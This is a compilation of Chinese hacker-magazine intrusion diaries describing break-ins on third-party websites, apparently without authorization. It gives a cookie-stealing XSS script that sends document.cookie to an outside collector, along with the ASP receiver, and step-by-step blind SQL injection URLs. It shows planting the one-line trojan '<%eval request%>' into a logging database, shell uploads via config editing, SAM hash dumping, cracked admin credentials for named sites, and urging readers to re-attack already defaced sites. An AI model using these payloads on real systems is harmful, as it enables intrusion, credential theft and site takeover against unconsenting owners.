本文介绍的是别人公布的网奇 EShop 网上商城系统注射漏洞的测试以及利用过程。仅出于兴趣爱好，请不要用于非法用途。如果有朋友想在本机测试这个漏洞，我把存在这个漏洞的网奇 EShop 网上商城系统的源代码《网奇 Eshop 网络商城系统 v5.5 ACC版.rar》打包给大家了。（文中涉及的相关软件本期光盘已收录）

## 花了一块拿到ColdFusion网站的shell

txcbg

来写一下前几天拿某网站 shell 的过程。没什么技术含量，各位大牛别踩，嘿嘿。

先来说下目标网站的大体情况：国外网站，Windows 2003 系统，IIS 6.0，网站用的是 cfm 文件。

在目标网站上找到了一个注入点 http://www.xxx.com/xxx.cfm?id=1，没猜出任何表，但通过注入点知道了网站用的是 Access 数据库。访问 http://www.xxx.com/xxx.cfm?id=1a，报错了，爆出了目标网站在服务器上的物理路径 E:\Domains\xxx\www\。

用 SRC Web Vulnerability Scanner 扫描目标网站的文件和目录，发现了一个目录 admin，不用登录就进入了一个好像后台的地方，暂且就叫它后台吧。在这个后台没找到任何可以上传文件的地方。发现后台可以执行 SQL 命令，因为已经知道是 Access 数据库、IIS 6.0，还知道网站的物理路径，考虑用 Access 导出文件配合 IIS 6.0 的解析漏洞获得 shell。

执行 SQL 语句“create table a (b varchar(50))”，报错了。这时我才注意到 SQL 命令输入框上面有只能执行 select 操作的说明。不能新建表，能不能在已有表中插入 ASP 一句话木马呢？后台有一个表名 x，点开，显示了表 xxx 的内容，并且每一条记录前都有“Edit”按钮，如图1。


图1

难道可以直接编辑表中的记录？经过测试，现实是残酷的，虽然有“Edit”按钮，但在提交更改时却报错，不能修改已有表中的任何内容。另外注意到在表 xxx 中有插入新记录的按钮，尝试插入一条记录，成功。尝试修改新插入的记录，失败。

新增一条记录，在记录中插入 ASP 一句话木马的服务端代码，失败。通过执行 SQL 命令导出 shell 的方法失败。

在后台有个服务器信息的菜单，点开后发现目标网站用到了 ColdFusion Server，版本为 7.02。ColdFusion 以前没见过，到网上查了下，发现 ColdFusion 是一个 Web 服务器软件；找到介绍 ColdFusion 的文件包含漏洞，目标网站是否也存在文件包含漏洞呢？不敢直接在目标网站上测试，下载了 ColdFusion 7.0 的安装文件，在虚拟机里的 Windows 2003 中进行安装。安装完成后照着给出的文件包含漏洞截图葫芦画瓢访问测试，没有成功……后来才知道并不是所有的 cfm 文件都存在文件包含漏洞，还以为所有的 cfm 文件都存在文件包含漏洞呢，太幼稚了。想通过文件包含获得 shell 的方法也失败了。

因为虚拟机里安装了 ColdFusion，就想找个 cfm 的 shell 来开个眼界（以前没用过 cfm 的 shell，大家见笑了）。在网上找到了 Cfm Shell v3，在虚拟机里访问文件时报错；用了“卖刀”里的 cfm 文件 Customize.cfm，还是报错，也许是我不会用 Customize.cfm。我是直接访问的文件地址。后来在网上找到了一个执行 cmd 命令的 cfm 小马，在我的虚拟机里运行正常，能够执行 cmd 命令。

继续在后台转悠，看到了一个配置管理的菜单，点开后发现可以修改连接的数据库以及表。怎么看着编辑框中的代码和刚才 cfm 小马的代码格式有点类似啊，难道待编辑的内容是某个 cfm 文件的完整代码？看到待编辑代码中有“<”和“>”标记，更加肯定了这个想法。配置管理菜单的地址为 http://www.xxx.com/admin/editconfig.cfm，猜测被编辑的文件是 http://www.xxx.com/admin/config.cfm；访问 http://www.xxx.com/admin/config.cfm，显示空白页；访问 http://www.xxx.com/admin/config1.cfm，报错了。看来确实存在文件 config.cfm。

来验证下是否编辑的就是文件 config.cfm。备份编辑框中的内容，把编辑框中的内容修改为 1，提交修改后访问 http://www.xxx.com/admin/config.cfm，页面显示 11；把编辑框中的内容修改为 test，提交修改后访问 http://www.xxx.com/admin/config.cfm，页面显示 test test。看来编辑的确实是文件 config.cfm，只是输入的内容被显示了两次。在编辑框中输入执行 cmd 命令的 cfm 小马代码，提交更改后访问 http://www.xxx.com/admin/config.cfm，终于获得了 shell，如图2，两个 cfm 小马。通过执行 whoami 命令，显示是 system 权限，如图3。在 Windows 系统下默认安装 ColdFusion 的情况下，cfm 文件是以 system 权限运行的。

通过执行 echo 命令写了一个 ASP 一句话到网站目录下，方便文件上传下载。写入的 ASP 一句话木马能正常使用，利用它另外上传一份执行 cmd 命令的 cfm 小马到网站目录下。恢复 config.cfm 的内容，利用新上传的 cfm 小马执行 reg 命令导出 SAM 中的用户信息，获得了所有用户的密码 Hash，并且全部破解出来获得了明文密码，剩下的大家都知道了。


总结：没见过的“新”东西，老方法同样适用。采用 cfm 的网站我头一次见，但在 ASP、PHP 下通过编辑文件获得 shell 的方法同样适用。

## 记一次小壁刚站长检测——传说中的田某某

#### 第一次入侵

话说那个田某某闹得可谓沸沸扬扬，看了腾讯拍的采访，发现了许多可疑点，视频字幕出现了雷人的一幕……（如图1）。懂技术的人都知道田某某所说的其实是 js、css、ajax，这三种网站建设中的前端语言，而字幕居然写成这样，可见视频制作的人从策划到编辑根本就没有一个是懂得网络技术的人。因此田某某说什么，对于这些不懂的视频制作人员来说都是可信的，因为他们不懂，他们的目标只是做出来一个网络热门话题。可奇怪的是，这个视频居然没有让田某某本人看一下吗？

小弟我看完这片子后感慨万千，12岁的小朋友在15天写出 PE 系统，这严重打击了我们这些学技术的汉子们……还说什么精通 php、C 语言。这孩子一看就是个大忽悠……

看完短片后，立即打开那传说中的时代网络工作室，网站是 php 做的，也没什么注入之类的低级漏洞。看到底部赫然几个大字：网页程序 by 小田……我心想：难道我多疑了，这个是他写的？

不管那么多，先扫一下后台再说……拿出我的 6.5M 字典的 wwwscan，开始扫目录……

这不是 wordpress 的目录吗（如图2）？赶紧去 wordpress 默认后台……


结果证实了我的猜想，网站果然是用的 wordpress 系统（如图3），尝试弱口令登录，结果失败……谷歌一下 wordpress 最近也没有爆什么漏洞，于是只有继续等待 wwwscan 的扫描结果。


不一会儿扫出来了一个 upload 目录（如图4），这会不会是上传呢？打开后，出现了一个登录页面（如图5），居然是帝国备份王？


看有说明文档……使用默认账号：admin，默认密码 123456 进行登录，顺利进去了（如图6）。


备份控制面板功能还挺强大的，但是没有上传的地方（如图7）。

既然如此，那我们先下载一个备份看看（如图8）。

里面果然有好东西，看到了 config.php，也就是网站的配置文件（如图9）。

看到这里我顿时产生了无尽的遐想……替换功能能不能用上？？

首先打开那个配置文件（如图10），把配置文件内容全部复制下来，找到“替换目录文件内容”功能（如图11）。


把那个配置文件内容替换成我们的一句话……保存修改。

进入 http://www.pecmd.com/upload/bdata/safemod/config.php 看配置文件，看看我们替换成功没有……（如图12）


替换成功，马上祭出我们的神器——中国菜刀连接……OK，连接成功（如图13）。剩下的你懂得……哈哈。

#### 第二次入侵

寒假这几天无聊，拿出以前田某某的 webshell 玩，发现管理员把我的 shell 删了。正在没有思路的时候，突然想起以前菜刀连接的时候看过他的 conn 数据库连接文件，账户是什么……

### 友情检测黑校

话说小菜我学黑也学了一年了，最近看到自己学校开了个网站，于是就有了邪恶的想法，你懂的！！于是就开始了本次的友情检测。

先看看主站，是个 asp 站点。点开一个连接，随手加了个单引号尝试有没有注入，但是很不幸被过滤了，如图1。


看来 SQL 注入这条路是行不通了。换个思路，来试试网站的 FTP。测试发现 FTP 开放，试试弱口令：admin/admin888。

哈哈，以网站域名为账号和密码成功登录进去了，如图2。但是翻了翻，发现不是 web 目录并且目录不可写。


看来 FTP 也是无望了。再来看看旁注，如图3。

事实再次打击了我，这是独立服务器。C 段我又不会怎么办啊，只有再盯着主站了。顺便用 wwwscan 扫了一下，扫到了管理入口，如图4：http://www.xxxx.com/admin/admin_login.asp。

似乎峰回路转了，在 Google 找了一下利用方法，构造一段跨站代码：

```html
<script>document.location='http://www.xxxx.cn/cookies.asp?id='+document.cookie</script>
```


似乎是动易的，看了看源码发现是动易2006的系统。记得动易似乎留言那有跨站漏洞，去试了试，成功跨站，如图5。

## 一个人的战争

再写一段 ASP 接收 Cookie 的代码，但是我不会 ASP，就叫兄弟 Roker 写了一段：

```asp
<%
id=request("id")
if id <> "" then
  set fso=Server.CreateObject("Scripting.FileSystemObject")
  with fso.opentextfile(server.mappath("1.txt"),8,true)
    .WriteLine id
    .close
  end with
end if
%>

保存为 cookies.asp
```

图5

接下来就是等管理员登录了，那他看了留言后就会把他的 Cookies 发送到 cookies.asp 里了。

到此本次检测就结束了。

### 苦悔，测试！

单晓东

小菜今天又在网上闲逛，从一个“友情链接”到另一个“友情链接”，也不知道晃了多少次。后来在无意之中看到了一篇名为“讯奇旅游网站系统注入漏洞”的博文（http://www.myhack58.com/Article/html/3/62/2012/33096.htm），发布日期是 2012.02.13，也就十多天前。嘿嘿，会不会有戏呢？试试看！

根据该博文所述——“整个系统都是注入！”（小菜最喜欢了！）、“Jingdian_Show.asp 和 News_Show.asp 这些文件都……没有过滤”，小菜开始在网上找寻下手的目标。不过，Google 的关键词不太好找，试了几个都不理想。还是上讯奇旅游的官网吧，因为绝大多数这样的官网上都会展示已经采用本公司产品的目标网站，它们应该就是最好的测试对象了。另外，或许在上面也能找到类似于“Powered by xxx”字样的关键词，从而为之后的 Google 目标提供线索。OK，打开讯奇旅游的官网（http://www.67uu.com/UUTravel/Index.asp），首页下方看不到显示有特殊标志的版权声明（只有“Copyright ? 2011-2012 Www.67uu.Com All Rights Reserved. 海口讯奇网络工作室 - 讯奇旅游网站系统 Xunqi Travel 2.0（标准版、全能版、个性化定制）”），有点儿失望！不过，小菜很快从中看到了“合作伙伴”和“案例展示”，哈哈，有得玩儿了！于是，在接下来的一个多小时里，小菜对其中的五个网站进行了友情检测，向各位汇报如下：

### 第一个目标：山X乡村旅游网【注入点√、MD5 破解√、后台×】

图1

在该网站点击打开一个链接：http://www.cxxxxy.com/News/News_Show.asp?Article_Id=87，复制粘贴到明小子中进行“SQL 注入猜解检测”，结果很快就得到提示“恭喜，该 URL 可以注入！”。不过，数据库表名的确不在明小子已有的“黑名单”之内，所以在点击“猜解表名”按钮之后——“所有表名已猜解完毕！”，小菜什么都没得到。不要紧，按照那篇博文的指示，小菜在明小子的“检测设置区”中“设置表名”、“设置字段”和“后台地址”中分别添加了 UU_admin、admin_name/admin_pass 和 Admin_A/UU_Login.asp（如图1）。

重新进行检测，明小子扫出了两条记录：admin/469e80d32c0559f8、ecldj/5d69b566979b86e2（如图2），MD5 破解结果分别是 admin888 和 0123456789。下一步就是网站后台的扫描——“管理员口扫描”，可惜添加的后台 Admin_A/UU_Login.asp 也不给力，扫出的“后台”（http://www.cxxxxy.com/login.asp）经验证是个前台会员登录入口，使用这两个账号无法登录。小菜接着又用 wwwscan 对该网站进行了目录扫描，结果也是以失败而告终。

（存在注入点 + 账号的 MD5 密码被完全破解 + 后台很隐蔽 = 30分）

### 第二个目标：夜X旅游网【注入点√、MD5 破解×、后台×】

将链接 http://www.cxxxxxxv.cn/Jingdian/Jingdian_Show.asp?Jingdian_Id=13 复制到明小子中进行注入点的扫描，得到结果：admin/2cc0f3b1b85bc79d（如图3）。不过，在线破解 MD5 时被提示这是一条收费记录。另外，检测后台登录地址的结果与上一个网站也类似，有前台没后台；再用 wwwscan 扫描，同样也是些“<HTTP/1.1 500 Internal Server Error>！！”之类的“不作为”结果（如图4），失败。

（存在注入点 + 账号的 MD5 密码未被完全破解 + 后台很隐蔽 = 50分）

### 第三个目标：XX商务网【注入点√、MD5 破解√、后台√】

将链接 http://www.3xxxh.com/Travel/Travel_Show.asp?Travel_Id=9 复制到明小子中进行检测，得到了三个结果：admin/b1fd6927b10df861、long/f31b2bc46f036e16 和 lvyou/5d69b566979b86e2（如图5），对应的 MD5 破解结果分别是收费记录、050513 和 0123456789。该网站的后台地址与博文中的描述完全一样，是 http://www.3xxxh.com/Admin__A/UU_Login.asp；用第二个账号 long/050513 进行尝试登录，成功进入网站的后台（如图6）！还有，数据库相对路径“/Data/#UU_database.mdb”可以与网站域名组合并将 # 置换成 %23（绝对地址是 http://www.3xxxh.com/Data/%23UU_database.mdb），可以直接被下载，大小是 7.66MB，保存了账号在内很多的网站敏感信息。

（存在注入点 + 账号的 MD5 密码被破解 + 后台暴露 = 0分）

### 第四个目标：金XX旅游网【注入点√、MD5 破解×、后台√】

将链接 http://hxxx1.n-m-hotel.com/Hotel/Hotel_Show.asp?Hotel_id=15 粘贴到明小子中检测，这回得到五条记录：174357485/5801d50d762aed1e，其它四个就不占版面了哈（如图8），破解结果是 174357485。网站的后台是 http://hxxx1.n-m-hotel.com/Admin__A/UU_Login.asp，用该账号成功登录（如图9）。

依然是在首页点击一条链接 http://www.0xxxxxxxl.com/Travel/Travel_Show.asp?Travel_Id=38，复制到明小子中检测，得到一个结果：0898hotel/e6eddbb908f6ff40（如图7），可惜 MD5 密码未能破解成功（将账号 0898hotel 进行 MD5 加密后对比也不吻合）。网站后台是 http://www.0xxxxxxxl.com/Admin__A/UU_Login.asp，只有账号没有密码，望“台”兴叹！

（存在注入点 + 账号的 MD5 密码未被破解 + 后台暴露 = 50分）

### 第五个目标：新XX城市酒店网【注入点√、MD5 破解√、后台√】

（存在注入点 + 账号的 MD5 密码被破解 + 后台暴露 = 0分）

小小的总结：

在五个被测目标网站中，两个是被完全攻陷进入后台的，其它三个也是在不同程度上存在着危险——或暂时未被找到后台，或 MD5 密码暂时未被破解。小菜还顺便检测了讯奇旅游官网，发现并无注入漏洞，但为什么这五个目标网站却是百分百地存在着注入漏洞呢？无语……

### 当工具遭遇“长度”瓶颈时

年晓东

#### 一、明小子和啊D——因“长度”而失败

图1

那天受朋友之托去搞一个“简单”的网站，说它简单是真的，因为网站的页面个数是屈指可数的，而且都是静态的 .html；说它“简单”也是真的，因为要搞定这样“简单”的网站其实是不简单的，人家提供的服务越少，安全性能就相对越高（起码我们“下嘴”的机会少得可怜）。废话不多说了，小菜我粗略地一看是这种情况，立刻想到了“旁注”，于是赶紧拿到 http://www.114best.com 上进行同 IP 地址多网站的查询，结果发现有 30 个网站与目标在同一 IP 服务器上（如图1）。看来看去尝试了其中一个 XX 有限公司作为间接目标，打开一看，非常标准的企业网站格式，点击“Products”（产品）中的第一个图片，360 浏览器地址栏显示的地址是 http://www.cxxxxxxy.com/list.asp?id=331，很好，是 asp 的，完全是标准的注入格式。立刻复制一下，粘贴到“明小子”中进行“SQL 注入猜解检测”——“恭喜，该 URL 可以注入！数据库类型：Access 数据库。先是暴出四个数据库，选中 admin；又暴出两个表：username、password；可惜啊，在最后一步列名的猜解过程中，明小子“缴枪”了，提示“列名长度大于50，猜解失败！”（如图2）。又重新检测了一回，结果依旧，换工具吧，用啊D，结果开始的“检测表段”、“检测字段”也算正常，admin 数据库和 username、password 表都爆出来了，到最后的列名检测也卡壳了，提示“检测指定内容长度失败！”（如图3）。

图2

图3

#### 二、后台尝试登录，失败

以前可从未遇到过这样的问题——明明已经探测到目标存在注入漏洞，而且数据库类型、名称及表名都成为已知条件，但却无法暴出账号和密码。明小子和啊D都是很长时间未升级了，最近自己的技术也没什么新的长进，怎么办呢？面对这两个经典工具无法突破的“长度”瓶颈，小菜我并没有放弃，而是仔细地观察这两个中途“停摆”的检测结果，又发现了一条很有价值的信息——明小子提示“共有1条记录”，啊D提示“检测内容（1/1）”，说明目标网站的数据库中极有可能只有一条管理员账号记录。嗯，再跑一下后台吧，得到 http://www.cxxxxxxy.com/admin/login.asp，打开一看，我狂晕！为什么呢？人家竟然在“管理员”和“密码”输入框的下面非常显眼地提示：“管理员与密码皆为：admin”！这可是小菜“出道”以来从未遇到的好事啊！不过，究竟是否有效还得验证之后才说，果然，用“admin/admin”尝试登录时被告知“对不起，登录失败！”（如图4）。晕，怎么能这样骗人呢？又试了几个“admin888、123456、'or'、='”之类的弱口令和万能密码，均以失败告终。

图4

#### 三、开始手工注入之旅

还是向 Google 大叔求助吧，很多大牛、二牛都说要碰到这样工具不给力的情况要手工注入才行。因为之前只是听说和粗浅地浏览过手工注入，注入检测工具的便利操作和思想上的懒惰已经完全取代了手工注入，貌似以前的《X》上也有过若干的手工注入文章，于是一阵翻箱倒柜，参考了几位大牛的经验，开始手工注入。

图5

- 1. 先用手工注入来验证一下明小子和啊D猜解出的内容是否正确：
  - 1) admin 表的验证
  - 2) username、password 列的验证

在 360 浏览器地址栏中构造“http://www.cxxxxy.com/list.asp?id=331 and exists (select count(*) from admin)”进行访问，返回的信息与访问“http://www.cxxxxy.com/list.asp?id=331”没什么两样（如图5），说明目标网站的确像工具检测的结果一样，存在着 admin 表。

分别构造“http://www.cxxxxy.com/list.asp?id=331 and (select count(username) from admin)>0”和“http://www.cxxxxy.com/list.asp?id=331 and (select count(password) from admin)>0”进行访问，仍然是返回了与访问“http://www.cxxxxy.com/list.asp?id=331”完全一样的正常显示页面，验证了 username 和 password 列的存在。

- （3）一条记录数的验证

构造“http://www.cxxxxy.com/list.asp?id=331 and (select count(*) from admin)>0”进行访问；返回正常页面；将最后的“>0”替换成“>1”再次访问，不正常了，提示“可能还没发布产品”（如图6），说明表中记录的个数是大于 0 而且不大于 1 的，那就只能是 1 了。此时可以再构造“http://www.cxxxxy.com/list.asp?id=331 and (select count(*) from admin)=1”进行访问，又返回了正常页面，肯定了 1 条记录存在的正确性。

图6

- 2. 再来进行手工猜解字段长度、账号名称和密码：
  - （1）username 字段长度的手工注入猜解

根据经验，绝大多数网站的管理员登录账号都是“admin”这 5 个字母，因此可以直接先来猜解验证其长度是否为 5。构造“http://www.cxxxxy.com/list.asp?id=331 and 1=(select count(*) from admin where len(username)=5)”进行访问，结果返回正常页面，说明 username 字段的长度的确是 5。如果返回错误信息的话，可以将最后的“=5”用“>6”和“<9”之类的字符串来代替，从而将 username 字段的长度快速限定在某范围内，最终得到其确切的长度。

  - （2）password 字段长度的手工注入猜解

账号的登录密码如果是明文的话，其长度一般都是 6 位、8 位的比较多，可以逐渐来进行手工注入猜解；如果是 MD5 密码的话，一般就是 16 位或是 32 位，可以很快就锁定，而且这种几率比较高。先构造“http://www.cxxxxy.com/list.asp?id=331 and 1=(select count(*) from admin where len(password)>8)”进行访问，返回正常页面，说明 password 字段的长度是大于 8 的，是 16 位 MD5 密码的可能性很大；再构造“http://www.cxxxxy.com/list.asp?id=331 and 1=(select count(*) from admin where len(password)=16)”进行访问，又返回正常页面，说明 password 字段的长度就是 16 位。

  - （3）账号名称的手工注入猜解

“http://www.cxxxxy.com/list.asp?id=331 and 1=(select count(*) from admin where left(username,5)='admin')”进行访问，返回正常的显示页面（如图7），说明猜解正确，账号的名称就是“admin”无疑。如果返回错误页面的话，可以逐位来手工注入猜解——

图7

猜解账号的第一个字符：构造访问“http://www.cxxxxy.com/list.asp?id=331 and 1=(select count(*) from admin where left(username,1)>'a')”，判断其是否位于 ASCII 码英文字母“a”的后面。如果返回正常，说明在“a”后面，再替换成“>'p'”、“<'x'”之类的字符串来进一步限定其范围，直到确定为止。比如当测试到“='h'”时返回了正常显示页面，说明这个账号的第一个字符就是“h”。

猜解账号的第二个字符：假设刚才猜解出第一个字母就是“h”的话，那就接着构造访问“http://www.cxxxxy.com/list.asp?id=331 and 1=(select count(*) from admin where left(username,2)>'ha')”（注意数字 2 和字母的意义）。假设当测试到“='he'”时返回了正常显示页面的话，说明账号的第二个字符就是“e”，也就是说账号的前两位字符是“he”。

根据第（1）步测试结果为 5，最终就可以依次将账号的 5 个字符逐一手工注入猜解出来。需要注意的是，大家应该对 ASCII 码表有个大致的了解——“American Standard Code for Information Interchange”的缩写，意思是“美国信息互换标准代码”，一套基于拉丁字母的电脑编码系统。其中的阿拉伯数字 0-9 的排位是 48-57，然后是大写英文字母 A-Z 的排位为 65-90，最后还有小写英文字母 a-z 的排位为 97-122。除此之外，像“#”、“]”、“>”之类的特殊字符在 ASCII 码表中都有对应的排位，大家可 Google 一下便知。

- （4）密码的手工注入猜解

由于在第（2）步中已经锁定 password 字段的长度是 16 位 MD5，所以在这儿要打一场“持久战”了，理论上至少要进行 16 次的手工注入猜解（其实尝试次数要远远大于 16）。与第（3）步账号名称的手工注入猜解过程类似，首先要进行密码第一个字符的猜解，可以构造“http://www.cxxxxy.com/list.asp?id=331 and 1=(select count(*) from admin where left(password,1)>'a')”进行访问测试，返回错误页面（提示“可能还没发布产品”），说明密码的第一个字符排位小于字母“a”；再替换成“<'9'”，返回正常显示页面；再替换成“<'6'”，返回错误页面，说明密码的第一位字符是数字 6、7、8 中的一个；最后替换成“='6'”，返回正常的显示页面，说明第一位 MD5 密码就是 6。

密码的第二位字符猜解是构造“http://www.cxxxxy.com/list.asp?id=331 and 1=(select count(*) from admin where left(password,2)>'6a')”（注意数字 2 和 6a 的意义）进行访问，经过几次排查之后发现在访问“http://www.cxxxxy.com/list.asp?id=331 and 1=(select count(*) from admin where left(password,2)='6b')”时返回了正常的显示页面，说明 16 位 MD5 密码的前两位字符是“6b”。依此类推，经过十多分钟的摸排定位，终于在构造了“http://www.cxxxxy.com/list.asp?id=330 and 1=(select count(*) from admin where left(password,16)='6b490b3ecB4066b1')”返回正常显示页面后（如图8），结束了最后一个密码字符的猜解，最终得出结论：16 位的 MD5 密码是“6b490b3ecB4066b1”。

图8

图9

#### 四、后记

到最给力的 MD5 破解网站上（http://www.md5.asia/），将“6b490b3ecB4066b1”粘贴到“请输入需要加密或解密的数值”输入框中，点击“加/解密”按钮，破解结果出来了，是“cccccc”（如图9）。然后，就没有然后了。

## 一个人的战争
了，你懂的——后台登录、上传JPG格式的ASP木马、备份数据库、拿WebShell、提权……不啰嗦了吧。

从工具的中途失利，到手工注入的柳暗花明，小菜我的最深体会就是——“当你感到走投无路的时候，千万不要放弃；想想，再想想，在前进的道路上再迈进一步；或许，迈出这看似艰难的一小步就是上台阶的一大步。”在这次入侵过程中，如果明小子或啊D直接给力地爆出admin账号和MD5密码的话，就没有小菜我这次的进步了。或许，这就是传说中的塞翁失马吧？

### 被防注入击倒的“小信息网程序”
前几天在看一个网站的时候发现网站根目录下有个目录，打开后是个叫“广州信息网”的程序，连版权信息都是默认的，觉得应该有搞头。看下是否存在注入漏洞，找了个可能提注入点的进行测试，出来了似曾相识的防注入提示，如图1。

在中国站长站找到了广州信息网程序的源代码下载了回来，然后在虚拟机中把程序运行了起来，在虚拟机中的访问地址为http://127.0.0.1/，首页如图2。


找了个存在参数的链接地址http://127.0.0.1/type.asp?name=家政服务，在后面加了个and，出来了如图3的提示框，提示“本站安全系统提示你！请不要在参数中包含非法字符尝试注入！Http://Www.Mdjes.Cn”，点确定按钮后就是熟悉的防注入提示。

“非法操作！系统做了如下记录：
操作IP：127.0.0.1
操作时间：2012-3-14 15:07:38
操作页面：/type.asp
提交方式：GET
提交参数：name
提交数据：家政服务and”，如图4。


既然它提示了我，我提交的它认为是非法的内容，很可能把我提交的内容保存到了一个数据库文件中，是否可以考虑数据库插马获得Webshell呢？翻看虚拟机中下载的广州信息网程序的源程序，在data目录下发现了两个文件：data.asp、sql_in.asp。猜测data.asp是网站的主数据库文件，sql_in.asp是记录SQL注入攻击的数据库文件。把sql_in.asp复制一份，重命名为sql_in.mdb，用Microsoft Office Access 2003打开，发现只有一个名为SqlIn的表，打开后发现果然记录的是SQL注入攻击，并且找到了我刚提交的“家政服务and”，如图5。


图4


图5

既然程序把提交的SQL注入语句保存在了数据库中，数据库文件的后缀又是asp，就可以考虑来数据库插马了。思路是提交的内容先以一个and开头触发记录，后面内容是Asp一句话木马服务端的代码，访问http://127.0.0.1/type.asp?name=家政服务and<%eval request("x")%>，提示记录了，但当用一句话木马客户端连接http://127.0.0.1/data/sql_in.asp时却不成功。把ASP一句话木马服务端代码<%eval request("a")%>进行Unicode编码后变为乱码字符串，访问http://127.0.0.1/type.asp?name=家政服务and乱码字符串，记录情况如图6。


图6

好像成功了，用lake2的cval最小马发送端连接http://127.0.0.1/data/sql_in.asp，写上密码a，成功获得了Webshell，如图7。


图7

用在虚拟机中获得Webshell的方法去目标网站上尝试，比较幸运，sql_in.asp没有更改存放目录，也没有改名，顺利拿到Webshell。

防注入程序本来是保障网站程序安全的，却因为自身存在危害严重的数据库插马漏洞导致可以被人轻易获得Webshell，严重威胁着网站的安全。各位站长朋友，不要觉得有了防注入程序的保护网站就安全了，也许防注入程序本身都不安全。

为了方便有兴趣的朋友本机测试这个漏洞，我把存在漏洞的广州信息网程序的源代码“仿广州信息网源码.rar”打包给大家了。

> （文中涉及的相关源代码本期光盘已收录）

## 实战入侵？ Follow him！
自己是个小菜，也经常看到有菜鸟求助找个网站后台拿WebShell来“抓鸡”，可惜因能力所限总没有可供实践的具体目标。其实我们小菜完全可以自行动手进行实践，从而非常高效地完成练习WebShell的“升级”任务。怎么做呢？很简单——找准有漏洞的目标网站，用工具检测，拿到管理员账号和后台就OK了。打开“中国被黑站点统计系统”网站（http://www.zone-h.com.cn/#），上面几乎每天都会新增若干被黑站点的页面，这些就是我们小菜抓鸡练手的极好目标（如图1）。

原因很简单，既然已经被黑，说明必有漏洞无疑；那么我们就可以追随前辈的足迹，Follow him进行二次入侵检测，成功的几率可以说是相当大的。不信？我们就来做两个小测试：

- 第一个目标：【2012-03-15 左洱 http://www.hxxxxxxxc.com/l.txt】

## 一个人的战争
直接打开这个链接就会看到前辈挂的黑页，在地址栏中删除后面的“1.txt”访问该网站域名，果然是一家企业网（因为企业网站的安全系数普遍较低），PHP的。点击找个疑似注入点吧，比如http://www.hxxxxxxxc.com/pro_content.php?pro_id=263，直接切到明小子中跑（菜鸟嘛，用熟工具再说）。很快就看到提示“该URL可以注入”，接着猜解，检测出数据库有admin，列名user_name和password。不过，明小子在猜解记录时却遇到了麻烦——提示有1001条记录，列名长度大于50，猜解失败。换啊D，晕，竟然连admin表字段都检测出来（如图2）！


小小的一个挫折而已，我再换工具，用土耳其数据库读取软件；它包括m4xmssql和m4xmysql两部分：前者是对付ASP，后者是对付PHP的。打开m4xmysql，先把右上方的Language的Turkish（土耳其语）设置为English，这样界面看起来能顺眼些。将刚才的注入点粘贴到Site中，点击Start按钮，在左下方的Database Schema处得到s456441db@localhost信息；再点击List DBs按钮，得到information_schema和s456441db；继续点击List按钮，怪不得明小子提示说有1001条记录，还真有不少；然后在s456441db上点击右键选择List Tables，又出来N多，右击其中的admin并选择List Columns；再勾选其中的user_name、password两项（与明小子扫的结果吻合），点击Get Datas按钮，立刻就出来结果了（如图3），一条记录：admin【0cb547d6827-abb03a86cfb10b6eb4e9b】。


MD5解密的结果是“8987734”，明小子扫出的后台是http://www.hxxxxxxxc.com/admin/login.php，尝试登录一下，看，进来了不是（如图4）？是否拿下网站，具体如何上传木马和拿WebShell，请自行探索哈。

### 第二个目标：【2012-03-15 Lingmoss http://www.qxxxj.cn/index.files/lm.htm】
依然是一家企业网站，同样我们可以在其首页上点击找个标准的注入点进行检测，比如http://www.qxxxj.cn/cpzs.asp?cid=3。啊D一扫描之后，结果很快就出来了（如图5）；两条记录——admin【767900b0f87f5a79】和douziaxi【7a57a5a743894a0e】。后面的MD5一看就知道是……

admin（太熟悉了），而账号admin的MD5密码破解之后竟是“adm1n”（将admin中的字母换成数字1），一开始还以为自己看错了呢，管理员真逗哈，要这么个心眼儿。


图6

用明小子扫出的后台是http://www.qxxxj.cn/admin/Admin_Index.Asp，用admin/adm1n登录一下试试，成功进入（如图6）。

两个小小的测试例子已经足以说明问题了，大家可千万不要玩儿过火，不要肆意修改和破坏别人的信息（个人反对挂黑页甚至是木马）。另外，“中国被黑站点统计系统”也经常会有.gov的ZF网站被黑记录，虽说这类网站的安全性也比较差，但大家最好是离得远远的哈，免得惹祸到免费茶！当然，并不是所有的被黑网站都是因为注入惹的祸，或许也仅只是因为后台被猜解后直接使用admin/admin（admin888）之类的默认账号而失守，但只要被曝光了就说明一定有安全漏洞存在（除非入侵者帮助修复或者是管理员察觉后采取了措施）。总之，我们菜鸟完全可以到这块“实验田”来多找寻些“准肉鸡”练手，祝各位学习进步！

Follow him, let’s go！

> （文中涉及的相关程序本期光盘已收录）

### 网络搞“盒”记
掐指算来，自己“涉黑”也有些时日了，期间经常会有小黑问一些如何快速“黑站”和“抓鸡”等问题。面对这样不大不小的问题，自认为仍是菜鸟的我当然没有资格上前指教一番；不过，发表些肤浅的见解和提供点儿有效的建议倒还是可以的。其实黑站和抓鸡弄不好的话都很容易喝到“免费茶”，但有针对性地“咬阔”进入别人网站的后台管理平台却是不犯法的（前提是务必要遵守“只看但不动”的原则）；而且走到这一步时，其实离黑站和抓鸡已经比较接近了——修改主页或挂“黑页”绝不成问题，先上传网马获取WebShell再提权添用户就抓到鸡了。对于广大菜鸟而言，刚起步时都恨不得马上就如愿入侵别人的系统（自己当初就是这样），而难尝胜利快感的遗憾却无情地打击着大家学黑的自信心。因此，如何简单而有效地获得一定权限（比如进入他人网站的后台）就显得尤为重要。唠嗑了这么多，到底有没有捷径让菜鸟很快就品尝到胜利的果实呢？答案是肯定的，下面就随小菜我走两步吧！

先说一下行动的指导思想，那就是大牛们露出的各种漏洞及其利用方法——最好是那些刚刚露出的“新鲜”0Day。当然，即使是几个月甚至几年之前就已经大白于天下的漏洞也并不代表没有希望了，毕竟现在“不作为”的网管大哥实在是太多太多了。我们只要按图索骥，就可以在茫茫网海中很快筛选出若干符合条件的目标网站进行入侵测试。不信？咱就以“半坑土农民”大牛在去年7月9日晒出的“shopxp网上购物系统v7.4最新注入0day”（http://www.tmdbs.com/2011/07/shopxp-into-the-online-shopping-system-v7-4-latest-0day/）为最高指示，进行一次具体的网海捞后台行动。

